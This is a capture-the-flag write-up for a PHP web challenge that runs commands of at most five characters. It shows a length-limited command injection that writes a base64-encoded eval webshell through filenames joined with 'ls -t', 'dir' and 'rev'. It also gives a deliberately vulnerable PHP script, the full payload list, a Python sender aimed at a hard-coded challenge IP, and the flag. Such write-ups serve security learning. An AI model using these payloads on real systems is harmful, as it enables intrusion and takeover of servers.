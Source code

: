 # Web: Less than 5 

![image](https://user-images.githubusercontent.com/74207547/164990551-4ab3d77a-363c-400e-932f-6063131ebac4.png)

## Website:

![image](https://user-images.githubusercontent.com/74207547/164990589-4978a78f-0952-46e6-ae9f-36a25ec5398a.png)

There is a blank white page. Let's test parameters from challenge description - `cmd` and `reset`

![image](https://user-images.githubusercontent.com/74207547/164990694-7b04edc3-8752-449b-b88e-620366e2f8f6.png)

![image](https://user-images.githubusercontent.com/74207547/164990699-6d901926-4fae-4b53-9b27-8c2214586ff2.png)

We don't get any output from that. Maybe we should search for some **edge cases** to see how app behaves.

![image](https://user-images.githubusercontent.com/74207547/164991052-8d48fafe-25ec-477c-b6d3-91b84153ce6e.png)

**Null byte** works as always in php scritps. Now we can check how length control is being handled.

![image](https://user-images.githubusercontent.com/74207547/164991027-ddf10e53-b2a7-4f43-8636-5ff3683febb1.png)
![image](https://user-images.githubusercontent.com/74207547/164990967-bedaee60-a230-4ff9-a7ac-8adf3d604add.png)

Input build of more than 5 characters is **not going throught exec function.**

## Fight with input length:

At first I thought the challenge was about simple command injection.
I tried using `*`, `>` to read flag or index.php but didn't get anything.
The length of 5 was too small to get any progress there.
The only thing that I acomplished was creating files with short names and reading them.
This led me to **executing ls and reading the output.**
![image](https://user-images.githubusercontent.com/74207547/164991334-687b6b23-0897-4d13-8acf-3a83715c427d.png)
![image](https://user-images.githubusercontent.com/74207547/164991343-4fd447ab-f0e9-4e1d-bfce-008700baad4b.png)

That's something. At that moment I knew the challenge is about creating payload from multiple files.
It is also said in challenge description that files are being removed every 2 mins so keep that in mind.

## Research:

After feeling a bit helpless I started to google for **short php** payloads. I stumbled upon few interesting articles.
* [blog.spacepatroldelta.com](https://blog.spacepatroldelta.com/a?ID=01800-96c1d853-a6ab-4a27-b2c5-157e586418d3)
* [blog.csdn.net/](https://blog.csdn.net/nzjdsds/article/details/102940762)


In above articles they are basically spliting the command `echo PD9waHAgZXZhbCgkX0dFVFsxXSk7|base64 -d>1.php` in multiple files.
Then they are using `ls -t>0` to sort files by the time they were created and put all of them into one file - `0`.
When that succeed they execute `0` with `sh 0` and the outcome is `1.php` file with php content - **`<?php eval($_GET[1]);`** which enables executing any command we want.
Backslashes `\\` keep all files as one payload and `${IFS}` is being used to replace one of the spaces.

![image](https://user-images.githubusercontent.com/74207547/164992329-77f4dacf-4211-4e8f-bc2d-1182fae6c29b.png)

The hardest part is executing `ls -t>0`. This line have much more than 5 chars so how they got around it?

![image](https://user-images.githubusercontent.com/74207547/164992694-919a57d3-18a9-4016-ae52-3b5fa4b8ce69.png)

**That's pure magic. Haow does it even work?**

First we need to understand few commands:
* dir - same as ls
* rev - reverses the input `echo 1234|rev` -> `4321`

So at first they are building a reversed payload. With `*>v` they are calling dir (first file in the folder in alphabetical order) which lists other files and then saves it to `v` file.
Next they uses rev to reverse the payload and move it to another file `0`
Well that works. Pretty crazy way to get around it.

**I found everything that is needed right? Copy, paste, run, didn't work. Unfortunately, it wasn't that simple.**

## Local setup

I created a simple php script that simulates the behavior of the challenge.
```php
<?php 
  if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5){exec($_GET['cmd']);}
?>
```

After a while I knew what didn't work. When building up a `ls -t` from files there is one diffrence between articles and actual challenge. We also have `index.php` in same directory which breaks the whole payload.

![image](https://user-images.githubusercontent.com/74207547/164993458-fca51e60-afec-4289-ac5a-d8cc49fc85ff.png)

Index.php got between the files and whole thing was messed up. I had to find reversed payload that will go after `index.php`

```
>dir
>n\>
>pt-
>l\|
>sl
*>v
>rev
*v>0
```

**Found it!** Below how it works.

![image](https://user-images.githubusercontent.com/74207547/164993612-daf15c12-49a7-4148-a232-0d4e3fd799bc.png)

# Solution:

I created simple python script which creates all the files needed and calls `1.php` endpoint to check if it worked.

```python
import requests 

url = "http://142.93.209.130:8003/?cmd={0}"

with open("payload.txt","r") as f:
        for i in f:
                print("[*]" + url.format(i.strip()))
                requests.get(url.format(i.strip())) 

test = requests.get("http://142.93.209.130:8002/1.php")
if test.status_code == requests.codes.ok:
        print("Success!!!")
```

```
payload.txt
>dir
>n\>
>pt-
>l\|
>sl
*>v
>rev
*v>0
>php
>1.\\
>\>\\
>d\\
>\-\\
>\ \\
>4\\
>e6\\
>s\\
>ba\\
>\|\\
>4K\\
>Pz\\
>7\\
>k\\
>XS\\
>x\\
>Fs\\
>V\\
>dF\\
>0\\
>kX\\
>g\\
>bC\\
>h\\
>XZ\\
>Z\\
>Ag\\
>H\\
>wa\\
>9\\
>PD\\
>\}\\
>FS\\
>I\\
>\{\\
>$\\
>ho\\
>ec\\
sh 0
sh n
```
![image](https://user-images.githubusercontent.com/74207547/164993848-6d436385-4934-4bb7-8873-755b58b3939b.png)
![image](https://user-images.githubusercontent.com/74207547/164993863-0feef127-dbce-4cab-ae6f-966020a5c176.png)

## FLAG: ictf{5ch4r5_4re_3n0ugh_bd903}
